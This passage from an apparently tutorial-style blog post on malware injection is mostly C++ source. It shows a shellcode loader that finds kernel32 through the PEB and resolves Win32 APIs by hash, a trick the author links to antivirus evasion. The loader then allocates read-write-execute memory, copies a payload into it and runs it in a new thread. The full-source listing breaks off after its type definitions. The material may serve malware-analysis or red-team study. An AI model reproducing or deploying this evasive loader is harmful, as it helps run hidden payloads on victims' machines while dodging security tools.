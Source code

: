 And, respectively, the `main()` function logic is different:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = (fnVirtualAlloc)myGetProcAddress(hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = (fnCreateThread)myGetProcAddress(hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = (fnWaitForSingleObject)myGetProcAddress(hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

As you can see, I used [Win32 API call by hash trick](/tutorial/2022/03/22/simple-av-evasion-5.html).    

Then full source code (`hack.cpp`) is:    

```cpp
/*
 * hack.cpp - find kernel32 from PEB, assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```